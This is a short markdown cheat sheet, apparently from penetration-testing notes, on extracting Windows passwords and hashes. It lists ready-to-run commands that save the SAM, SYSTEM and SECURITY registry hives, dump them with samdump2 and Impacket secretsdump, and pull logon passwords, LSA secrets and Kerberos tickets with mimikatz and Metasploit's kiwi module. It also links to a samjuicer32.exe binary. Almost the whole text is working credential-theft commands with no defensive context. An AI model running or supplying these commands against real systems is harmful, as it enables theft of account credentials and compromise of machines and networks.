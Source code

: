 ```yaml
---
description: In this topic your privilege has to be high privilege.
---
```


# Password Extraction

### samdump2

```
C:> reg save HKLM\SAM c:\SAM
C:> reg save HKLM\System c:\System

$ samdump2 System SAM
```

### mimikatz.exe

Need to match architectures.

```
privilege::debug
20 ‘OK’

sekurlsa::logonPasswords
lsadump::sam
lsadump::lsa /patch
lsadump::secrets
kerberos::list
```

### Metasploit

```
load kiwi

creds_all
lsa_dump_lsa
lsa_dump_secrets
kerberos_list
```

### Impacket

Get a copy of the SYSTEM, SECURITY and SAM hives and download them back to your local system.

```
C:> reg.exe save hklm\sam c:\windows\temp\sam.save
C:> reg.exe save hklm\security c:\windows\temp\security.save
C:> reg.exe save hklm\system c:\windows\temp\system.save

$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### samjuicer32.exe

windows 2000 service pack3 5.00.2195

[https://github.com/basicScandal/WinHackingBin/blob/master/Passdump/samjuicer32.exe](https://github.com/basicScandal/WinHackingBin/blob/master/Passdump/samjuicer32.exe)

```
C:\> samjuicer32.exe
```
